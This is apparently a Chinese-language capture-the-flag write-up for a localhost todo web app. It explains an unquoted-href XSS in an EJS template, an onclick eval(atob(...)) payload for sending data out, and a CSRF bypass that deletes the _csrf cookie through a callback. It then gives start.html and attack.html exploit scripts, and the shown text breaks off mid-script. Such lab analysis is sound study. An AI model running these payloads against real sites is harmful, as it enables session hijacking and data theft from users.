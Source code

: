 其对应的渲染如下：
```js
  <%_ user.todos.forEach(todo => { _%>
	<%_ if (todo.isURL) { _%>
	  <li class="has-text-left"><a target="_blank" href=<%= todo.text %>><%= todo.text %></a></li>
	<%_ } else { _%>
	<li class="has-text-left"><%= todo.text %></li>
	<%_ } _%>
  <%_ }); _%>
```

发现 `href` 渲染并没有加引号，所以直接可以对 a 元素添加 onclick 属性造成 1click XSS，脚本内容任意，可以外带数据。

```
http://localhost:12345?<space>onclick=eval(atob(`base64code`))
```

对于 csrf 的验证存在漏洞，若直接删除 cookie 中的 `_csrf` 键值对，由于服务端 cookie 中记录的 hasCSRF 一直为 True， 不会被更改，能直接绕开 csrf 限制访问所有 api。

而 callback 的参数对象是：
```json
{"success":true,"name":"foo","body":"bar"}
```

而 `cookieStore.delete` 所能接收的参数中 `name` 正代表 cookie 的键名。所以构造一个 name 为 `_csrf` 的 note 再调用 callback 便能删除 csrf。

所以这种方法的步骤是：
1. 准备工作先注册一个账号；创建一个 `name` 为 `_csrf` 的 post，记录下 uuid；创建一个内容为 `http://localhost:12345?<space>onclick=eval(atob(`base64code`))<space>` 的 todo。
2. 打开 admin home 页面并保留。
3. `callback` 调用 `cookieStore.delete` 删除 `csrf`。
4. 调用 `logout` 清除 `session`。
5. 同 3 删除 `csrf`。
6. `login.html` 表单登录自己的账号。
7. 通过 `callback` 的 `document.links[x].click` 点击 todo 链接触发 1click XSS，带出 admin home 的内容。

`start.html` :
```html
<script>
    const sleep = d => new Promise(r => setTimeout(r, d));
    (async () => {
        open(`/attack.html`);
        location.replace("http://localhost:12345");
    })()
</script>
```

`attack.html` :
```html
<script>
    const sleep = d => new Promise(r => setTimeout(r, d));

    async function delete_csrf() {
        PAYLOAD = `cookieStore.delete`;
        // uuid's name is `_csrf`
        page = open(`http://localhost:12345/post/?id=77a90981-3856-40ba-8c7a-fdbb0bd52eeb?callback=${PAYLOAD}%23%00`);
        await sleep(1000);
        page.close();
    }

    (async () => {
        // delete cookie
        await delete_csrf();

        // logout
        page = open("http://localhost:12345/api/logout");
```